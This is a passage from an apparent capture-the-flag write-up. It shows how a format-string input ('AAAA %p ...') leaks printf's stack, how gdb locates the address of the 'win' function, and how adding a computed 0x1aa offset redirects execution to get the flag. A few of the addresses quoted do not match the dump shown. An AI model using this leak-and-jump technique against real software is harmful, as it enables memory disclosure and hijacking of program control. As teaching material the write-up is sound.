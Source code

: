 Line `<+80>` is the `printf` call that prints the **exploit**.  
We set a breakpoint **after** the call because the values found in the address start from the **top** of printf's stack frame.  

Now when execution pauses at the **breakpoint** we print values above the current `rbp` to see the values of printf's **stack frame** and try to match it to our original output.  
To do this I use, `x/32gx $rbp-128`

### Output
```
0x7fffffffdf00:	0x2070252041414141	0x7025207025207025
0x7fffffffdf10:	0x2520702520702520	0x2070252070252070
0x7fffffffdf20:	0x7025207025207025	0x2520702520702520
0x7fffffffdf30:	0x0000000a70252070	0x00007fffffffdf60
0x7ffdb7ed6400 0x5584fcbcf1c0
```

We find the start of our input, `0x41`, which ends at the address **0x7fffffffdf30**, then the following two values match the last two values from our original output which were **0x7ffcb4e3af50 0x5591e05af1c0**.

The value **0x00005555555551c0** is a code address, specifically the return address `printf` used to return back to `call_function`.

Now, we find the difference of that address from the start of `win`.

We find the address of `win` in `gdb` using `disas win` and getting the address of the first instruction, in my case **0x000055555555536a**.

**Address of `win`:** 0x000055555555536a  
**Address of we know:** 0x00005555555551c0  
**Difference:** 0x1aa

The **final** step is to add the difference we calculated to the **address** we found in the original output and calculated the actual address of `win`.  
0x5591e05af1c0 + 0x1aa = **0x5591E05AF36A**

Now, when asked to enter an address, we put **0x5591E05AF36A** and get our flag.

## Solution

- Enter as a name `AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p`  
- Get the final address  
- Add **0x1aa** to it  
- Enter result

### Execution Example:
```
Enter your name:AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0x5591e16502a1 (nil) 0x5591e16502d5 0x7ffcb4e3aef0 0x7c 0x7ffcb4fe6218 0x7fafdd6df6a0 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070 0x7ffcb4e3af50 0x5591e05af1c0
 enter the address to jump to, ex => 0x12345: 0x5591E05AF36A
You won!
_______flag_______
```

## Tools Used
- `gdb`